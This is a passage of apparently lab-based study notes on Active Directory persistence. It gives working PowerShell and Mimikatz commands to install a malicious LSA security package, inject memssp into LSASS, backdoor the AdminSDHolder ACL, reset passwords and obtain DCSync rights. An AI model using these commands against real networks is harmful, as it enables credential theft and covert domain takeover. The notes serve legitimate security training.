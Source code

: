 ```powershell
$packages = Get-ItemProperty HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig -Name 'Security Packages' | select -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\System\CurrentControlSet\Control\LSA\ -Name 'Security Packages' -Value $packages
```

******************************************Method 2******************************************

`Invoke-Mimikatz -Command "misc::memssp"'`

- writes to LSASS
- not stable on Windows Server 2016

## ACLs

### AdminSDHolder

- every 60 minutes, by default SDPROP (Security Descriptor Propagator) overwrites ACL of all protected groups with the ACL of the AdminSDHolder ACL
- instead of adding user as a member to a group, you can give the user full permissions over a group
- you can verify if it worked with `Get-ObjectACL -SamAccountName "<GROUP_NAME>" -ResolveGUIDs | ?{$_.IdentityReference -match '0xd4y'}`
- with propagated permissions, you can run one of the following (depending on permissions):
    - `Add-ADGroupMember -Identity '<GROUP_NAME>' -Members follow_0xd4y`
    - `Set-ADAccountPassword -Identity 0xd4y -NewPassword (ConvertTo-SecureString "f0ll0w_0xd4y" -AsPlainText -Force)`

************************************Interactive Method************************************

- found within the “Security” tab of a group’s properties:



- note when modifying ACL of specific group not within the AdminSDHolder ACL, the changes get overwritten
    - that’s why persistence must be done within the AdminSDHolder ACL

**Non-Interactive Method**

`Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Principal 0xd4y`

- within the DC, propagate the changes: `Invoke-SDPropagator -showProgress -timeoutMinutes 1`
- interesting rights to have (can be specified with `-Rights`): `ResetPassword`, `WriteMembers`, etc.

### Rights Abuse

- DCsync attack can be performed without being a DA as long as the user at least has replication rights (GenericAll is more than enough)
    - can be found with `Get-ObjectACL -DistinguishedName "dc=follow,dc=0xd4y_notes,dc=local" -ResolveGUIDs | ? {($_.IdentityReference-match "0xd4y") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}`
- modify domain root ACL to give user Full Control or DCSync permissions
